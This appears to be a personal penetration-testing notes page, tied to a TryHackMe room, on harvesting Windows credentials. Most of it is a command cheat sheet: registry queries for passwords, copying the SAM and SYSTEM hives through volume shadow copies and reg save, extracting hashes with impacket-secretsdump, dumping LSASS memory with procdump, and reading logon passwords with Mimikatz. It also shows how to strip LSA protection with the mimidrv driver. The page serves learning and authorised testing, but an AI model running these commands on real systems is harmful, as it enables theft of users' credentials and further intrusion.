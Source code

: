 

Credentials Harvesting is a term for any technique used to gain access to user and system credentials.

## Credential Access

Credentials are stored insecurely in various locations in systems:

-   Clear-text files - **Unsecured Credentials: Credentials In Files** ([T1552.001](https://attack.mitre.org/techniques/T1552/001/)).
	-   Commands history	
	-   Configuration files (Web App, FTP files, etc.)
	-   Other Files related to Windows Applications (Internet Browsers, Email Clients, etc.)
	-   Backup files
	-   Shared files and folders
	-   Registry
		- `reg query HKLM /f password /t REG_SZ /s`
		- `reg query HKCU /f password /t REG_SZ /s`
	-   Source code
-   Database files
	- Third party databases
-   Memory - accessing memory is limited to administrator users who fully control the system
	-   Clear-text credentials
	-   Cached passwords
	-   AD Tickets
-   Password managers - misconfigurations and security flaws exist.
	- Built-in password managers (Windows)
	- Third-party: KeePass, 1Password, LastPass
-   Enterprise Vaults
-   Active Directory
	- Users descriptions: Admin sometimes leave password in the description for new employees
	- Group Policy SYSVOL: Leaked encryption keys, `Cpassword`
	- NTDS: `ndts.dit` file, on the domain controller
	- AD Attacks
-   Network Sniffing
	- Man-In-the-Middle attack against network protocols to steal NTLM hashes for later [[Pass-The-Hash]]

## Local Windows Credentials

- [[Keylogging]]
- `c:\Windows\System32\config\sam`, just copy and crack - encrypt [RC4](https://en.wikipedia.org/wiki/RC4) or [AES]https://en.wikipedia.org/wiki/Advanced_Encryption_Standard
- [[Metasploit]]'s [Meterpreter]([[Meterpreter-Commands]]) shell has the `hashdump` command
- Volume Shadow Copy Service - its [documentation](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service)
Microsoft Volume shadow copy service performs a volume backup while applications read/write on volumes. With administrator privileges use wmic to create a shadow volume copy.
```powershell
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows # verify the replication of the shadow volume
# copy should be \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
# copy the SAM database
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
# copy the decryption key
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
- Registry Hives
```powershell
# Dump the SAM database
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```
Use `secretsdump` from [[Impacket-Cheatsheet]]
```bash
impacket-secretsdump -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```


## Local Security Authority Subsystem Service (LSASS)

In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory! Both non-protected and protected LSASS dumping discuss.

`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa 0

Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. Windows system stores credentials in the LSASS process to enable users to access network resources and services. With Administrative privileges we can dump the LSASS process memory. MITRE ATT&CK framework defines as [OS Credential Dumping LSASS Memory (T1003)](https://attack.mitre.org/techniques/T1003/001/). Detail below are various methods:

#### Unprotected LSASS Dump

- GUI :`Open 'Task Manager' -> Detail tabs -> Right-Click on lssas.exe -> Create Dump File`
- [Sysinternals Suite]([[Sysinternals-Hub]])'s [procdump]([[Sysinternals-Procdump]]) with `procdump.exe -accepteula -ma lsass.exe C:\administrator\desktop\lsass_dump`

#### Extracting Credentials from LSASS Dump & LSA Protection Disabling 

[[Mimikatz-Cheatsheet]]

```powershell
privilege::debug
sekurlsa::logonpasswords
# ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
# Means LSA protection:
!+ # mimidrv.sys driver disables LSA protection.
!processprotect /process:lsass.exe /remove
```

## Windows Credential Manager


Credential Manager is Windows Features that stores credentials. These Authentication details are stored on the user's folder and are not shared among Windows user accounts and are cache in memory. Caterogies of Credentials stored by Windows Credential Manager:
Credential Categories | Contains
--- | ---
Web credentials  | Authentication details stored in Internet browsers or other applications.
Windows credentials |  Windows authentication details, such as NTLM or Kerberos.
Generic credentials |  Basic authentication details, such as clear-text usernames and passwords.
Certificate-based credentials |  Authenticated details based on certifications.

```powershell
vaultcmd /list
vaultcmd /listproperties:"$category" # Web credentials, Windows credentials, Generic credentials. Certificate-based credentials
```


## References

[Tryhackme Credential Harvesting](https://tryhackme.com/room/credharvesting)